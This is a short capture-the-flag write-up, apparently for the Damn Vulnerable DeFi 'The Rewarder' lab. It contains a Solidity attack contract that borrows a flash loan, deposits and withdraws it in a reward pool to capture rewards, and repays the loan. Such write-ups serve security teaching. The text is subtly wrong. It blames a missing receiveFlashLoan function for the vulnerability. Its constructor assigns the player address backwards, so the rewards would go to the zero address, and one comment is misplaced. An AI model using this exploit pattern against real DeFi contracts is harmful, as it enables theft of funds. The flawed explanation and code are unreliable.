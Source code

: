 1. Here above function flashLoan makes a call to receiveFlashLoan(uint256) which leads to a vulnerable call to nothing because there is no function known as receiveFlashLoan in the whole contract and that's a Vulnerability here.
2. Now to attack it we just make a call to flashLoan function from Attack Contract and implement the receiveFlashLoan function in our own style! 
- **Solution:**

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import {FlashLoanerPool} from "./FlashLoanerPool.sol";
import {TheRewarderPool} from "./TheRewarderPool.sol";
import {RewardToken} from "./RewardToken.sol";
import {DamnValuableToken} from "../DamnValuableToken.sol";

contract attackReward{

    uint256 public amount = 1000000 ether;
    address public player;
    FlashLoanerPool public pool;
    DamnValuableToken public token;
    TheRewarderPool public rewarderPool;
    RewardToken public rewardToken;

    constructor(FlashLoanerPool _pool,DamnValuableToken _token,TheRewarderPool _rewarderPool,RewardToken _rewardToken,address _player)
    {
        pool = FlashLoanerPool(_pool);
        token = DamnValuableToken(_token);
        rewarderPool = TheRewarderPool(_rewarderPool);
        rewardToken = RewardToken(_rewardToken);
        _player = player;
    }
    // and as fallback gets called we approve rewardPool to use the balance amount of token and then
    // rewardPool deposit balance into their pool and withdraw back.
    function receiveFlashLoan(uint256 _amount) public{

        token.approve(address(rewarderPool),_amount);
        rewarderPool.deposit(_amount);
        rewarderPool.withdraw(_amount);
        uint256 playerReward = rewardToken.balanceOf(address(this));
        // we will send the flashLoan amount back to it so that the flashLoan doesnt get reverted
        rewardToken
        .transfer(player,playerReward);
        token.transfer(address(pool),_amount);
    }
    // 1st we call attack so that flashLoan gets executed and hence we know flashLoan has an aribtary call which
    // will be directed to receiveFlashLoan
    function callFlash() public{
        pool.flashLoan(amount);
    }

}
```
